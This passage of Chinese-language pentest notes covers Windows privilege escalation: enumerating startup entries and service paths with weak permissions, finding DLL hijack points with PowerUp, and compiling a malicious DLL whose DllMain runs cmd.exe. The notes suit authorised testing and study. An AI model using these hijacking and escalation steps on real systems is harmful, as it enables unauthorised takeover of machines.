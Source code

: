 ```bat
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

## 利用服务权限错误提权
以管理员/系统身份运行且文件权限不正确的服务可能导致提权，替换该文件或者劫持 DLL（需要可写权限），然后重启该服务即可。
### DLL 劫持
1. 寻找 DLL 劫持利用点
   1. PowerSploit 中的 PowerUp 脚本：Find-PathDLLHijack PowerUp.ps1
   2. Process Monitor : check for "Name Not Found"
2. 编译恶意 DLL
   1. For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
   2. For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

    windows_dll.c 内容
    ```c
    #include <windows.h>
    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```
3. 寻找权限配置不当的 PATH 目录
   ```bat
    $ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

    $ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

    $ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
   ```

在某些情况下，程序可能自主地加载某些路径的 dll，此时就需要逆向特定的应用才可以判断是否可以进行 DLL 劫持。

参考：
- [Powershell 提权框架-Powerup——平心而论，这个提权工具还是很好用的，看后面实战例子 - bonelee - 博客园](https://www.cnblogs.com/bonelee/p/16227518.html)


### PATH 路径可写
下面的命令可以对服务的 path 路进具备的权限进行排查。
```bat
$ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
$ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

$ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
两组命令都可以用，但会生成文件。
